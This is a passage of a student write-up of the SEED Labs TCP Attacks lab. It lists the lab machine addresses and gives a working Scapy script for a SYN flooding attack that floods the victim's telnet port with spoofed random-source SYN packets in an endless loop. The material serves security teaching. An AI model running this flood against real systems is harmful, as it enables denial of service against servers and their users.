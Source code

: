 ###### [Lab Link](https://seedsecuritylabs.org/Labs_20.04/Files/TCP_Attacks/TCP_Attacks.pdf)

---
### Machine Configurations

#### Host M (Attacker)

###### IP : `10.9.0.1`
###### MAC: `02:42:b5:6a:84:e4`
#### Host A (Victim)

###### IP : `10.9.0.5`
###### MAC: `02:42:0a:09:00:05`

#### Host B (User1)

###### IP : `10.9.0.6`
###### MAC: `02:42:0a:09:00:06`

#### Host C (User2)

###### IP : `10.9.0.7`
###### MAC: `02:42:0a:09:00:07`

---
## Task 1: SYN Flooding Attack
### Task 1.1: Launching the Attack Using Python

To perform this attack, we need to send many connection requests to the same port number at the victim machine to abuse the limited size of the half-open connections queue.
- They must come from random IP addresses in order to net get blocked by a firewall.

```python
from scapy.all import IP, TCP, send
from ipaddress import IPv4Address
from random import getrandbits

ip = IP(dst="10.9.0.5")
tcp = TCP(dport=23, flags='S')
pkt = ip/tcp

while True:
    pkt[IP].src = str(IPv4Address(getrandbits(32))) # source iP
    pkt[TCP].sport = getrandbits(16) # source port
    pkt[TCP].seq = getrandbits(32) # sequence number
    send(pkt, verbose = 0)
```

> The `flags='S'` parameter in the `tcp` part represents `SYN` packet.
> The destination IP address is that of the victim, and the port is 23 because that is the `telnet` port.
